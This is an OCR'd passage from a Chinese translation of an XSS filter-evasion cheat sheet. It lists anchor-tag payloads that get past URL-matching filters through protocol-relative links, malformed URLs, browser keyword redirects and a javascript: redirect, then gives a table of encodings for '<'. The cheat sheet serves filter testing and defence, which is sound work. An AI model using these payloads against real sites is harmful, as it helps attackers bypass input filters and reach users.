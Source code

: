 2.84.7. 协议解析绕过
(// 替代http://可以节约很多字节).当输入空间有限时很有用(少两个字符可能解决大问题) 而且可以轻松绕过类似"(ht|f)tp(s)?://"的正则过滤(感谢Ozh提供这部分).你也可以将"//"换成"\\"。你需要保证斜杠在正确的位置，否则可能被当成相对路径URL:

<A HREF="//www.google.com/">XSS</A>

2.84.8. Google的"feeling lucky"功能1
Firefox使用Google的"feeling lucky"功能根据用户输入的任何关键词来将用户重定向。如果你存在漏洞的页面在某些随机关键词上搜索引擎排名是第一的，你就可以利用这一特性来攻击FireFox用户。这使用了Firefox的"keyword:"协议。你可以像下面一样使用多个关键词"keyword:XSS+RSnake"。这在Firefox2.0后不再有效.

<A HREF="//google">XSS</A>

2.84.9. Google的"feeling lucky"功能2
这使用了一个仅在FireFox上有效的小技巧，因为它实现了"feelinglucky"功能。不像下面一个例子，这个在Opera上无效因为Opera会认为只是一个老式的HTTP基础认证钓鱼攻击，但它并不是。它只是一个畸形的URL。如果你点击了对话框的确定，它就可以生效。但是在Opera上会是一个错误对话框，所以认为其不被Opera所支持，同样在Firefox2.0后不再有效。

<A HREF="http://ha.ckers.org@google">XSS</A>

2.84.10.      Google的"feeling lucky"功能3
这是一个畸形的URL只在FireFox和Opera下有效，因为它们实现了"feeling lucky"功能。像上面的例子一样，它要求你的攻击页面在Google上特定关键词排名第一（在这个示例里关键词是"google"）

<A HREF="http://google:ha.ckers.org">XSS</A>

2.84.11.      移除别名
当结合上面的URL，移除"www."会节约4个字节，总共为正确设置的服务器节省9字节:

<A HREF="http://google.com/">XSS</A>

2.84.12.      绝对DNS名称后额外的点
<A HREF="http://www.google.com./">XSS</A>

2.84.13.      JavaScriptlink location
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>

2.84.14.      内容替换作为攻击向量
假设"http://www.google.com/"会自动替换为空。我实际使用过类似的攻击向量即通过使用转换过滤器本身（示例如下）来帮助构建攻击向量以对抗现实世界的XSS过滤器:

<A HREF="http://www.google.com/ogle.com/">XSS</A>

2.85.    字符转义表
下面是HTML和JavaScript中字符“<”的所有可能组合。其中大部分不会被渲染出来，但其中许多可以在某些情况下呈现出来。：

<

%3C

&lt

&lt;

&LT

&LT;

&#60

&#060

&#0060

&#00060
